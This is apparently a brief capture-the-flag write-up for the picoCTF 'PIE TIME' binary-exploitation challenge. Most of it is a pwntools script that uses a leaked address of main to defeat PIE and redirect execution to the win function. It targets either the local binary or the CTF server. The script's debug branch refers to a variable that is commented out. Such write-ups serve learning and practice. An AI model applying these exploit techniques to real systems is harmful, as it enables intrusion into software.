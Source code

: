 # Binary Exploitation

## PIE TIME

* Received `vuln` and `vuln.c`
* Checksec showed all things as active.
* Source code showed a memory leak, so it was trivial to traverse
* Solution shown below

```python
#!/usr/bin/env python3
import sys

from pwn import *

context.update(arch='amd64', os='linux')

elf = context.binary = ELF('./vuln')

#binstr = "./perplexed"
address_port_str = "rescued-float.picoctf.net:50332"
ip, port_str = address_port_str.split(":")
port = int(port_str)

#    break *0x56555d36
if (len(sys.argv)<= 1):
    p = process()
elif (sys.argv[1] == "dbg"):
    p = gdb.debug([binstr],'''
    unset env LINES
    unset env COLUMNS
    break *0x401211
    continue
    ''')
elif (sys.argv[1] == "remote"):
    p = remote(ip,port)
else:
    print(f"Invalid argument to e.py: '{sys.argv[1]}'. Did you mean 'dbg'?")
    sys.exit(1)

p.recvuntil('main: ')
main = int(p.recvline(),16)
print("RECEIVED: ", main)
elf.address = main - elf.sym['main']
payload = elf.sym['win']
payload = hex(payload)

print(type(payload),payload)

p.sendline(payload)

p.interactive()

```
